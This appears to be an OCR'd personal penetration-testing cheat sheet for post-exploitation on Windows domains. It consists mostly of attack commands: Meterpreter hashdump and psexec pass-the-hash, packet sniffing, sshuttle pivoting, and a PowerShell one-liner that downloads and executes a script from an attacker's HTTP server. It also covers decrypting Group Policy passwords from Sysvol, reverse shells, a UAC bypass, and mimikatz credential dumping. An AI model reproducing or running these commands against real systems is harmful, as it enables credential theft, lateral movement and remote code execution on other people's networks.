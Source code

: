 	to proxy through the pivot, exploit again with pivot IP.


	Pass the hash:

		meterpreter > hashdump
		exploit/windows/smb/psexec
		set SMBUser
		set SMBPass <hash>
		exploit

	Info Gathering:

		use sniffer
		sniffer_interfaces
		sniffer_start <interface number>
		sniffer_dump <interface number> <filename.pcap>
		sinffer_stop <interface number>
		use post/multi/recon/local_exploit_suggester


	sshuttle -r root@<IP> --ssh-cmd "ssh -i ird_rsa" <remote subnet> -x <IP>


	SessionGopher:

		powershell.exe -nop -ep bypass -C iex (New-Object Net.Webclient).DownloadString('http://<SimpleHTTPServer>/SessionGopher.ps1'); Invoke-SessionGopher 

		-Thorough - more info

	Active Directory:

		load extapi
		adsi_computer_enum <USERDNSDOMAIN> - enumerate AD computers
		adsi_user_enum <USERDNSDOMAIN> - enumerate AD users

	Creds stealing:

		AD policies - %USERDNSDOMAIN%\Policies
		Sysvol share - %LOGONSERVE%\Sysvol

		Than you can find user creation policies by searching for groups.xml files in the policies directory.
		System administrators usually use AD policies to deploy a local administrator account in a domain environment.

		find groups.xml in {...}\Machine\Preferences\Groups\Groups.xml
		then decrypt the password with gpp-decrypt.

		then you can run execute a reverse shell by using post/windows/manage/run_as

		then if getsystem fails use -> exploit/windows/local/bypassuac_injection


		load mimikatz
		kerberos - try to harvest users and passwords
		wdigest - try harde
		privilege::debug
		token::elevate
		lsadump::sam

